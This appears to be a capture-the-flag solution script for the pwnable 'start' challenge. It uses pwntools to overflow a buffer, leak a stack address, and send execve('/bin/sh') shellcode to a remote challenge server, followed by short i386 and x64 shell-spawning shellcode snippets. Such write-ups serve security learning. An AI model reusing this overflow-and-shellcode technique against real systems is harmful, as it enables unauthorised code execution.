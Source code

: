 

## pwnable_start

```python
from pwn_debug import *
context.log_level = 'debug'
pdbg = pwn_debug('./start')
write = 0x8048087
pdbg.local()
pdbg.remote('node4.buuoj.cn', 26472)
#p = process('./start')
p = pdbg.run('remote')
p.recvuntil('CTF:')
payload1 = 'a'*(0x14) + p32(write)
p.send(payload1)
stack = u32(p.recv(4))
print(hex(stack))
shellcode = asm(
	"""
	push   0xb
	pop    eax
	push   ebx
	push   0x0068732f
	push   0x6e69622f
	mov    ebx,esp
	xor    ecx,ecx
	xor    edx,edx
	int    0x80
	"""
)
payload2 = 'a'*(0x14) + p32(stack+0x14) + shellcode
p.send(payload2)
p.interactive()
```

短shellcode

i386

```assembly
push   0xb
pop    eax
push   ebx
push   0x68732f2f
push   0x6e69622f
mov    ebx,esp
int    0x80
```

x64

```assembly
xor 	rsi,	rsi			
push	rsi				
mov 	rdi,	0x68732f2f6e69622f	 
push	rdi
push	rsp		
pop	    rdi				
mov 	al,	59			
cdq					
syscall
```
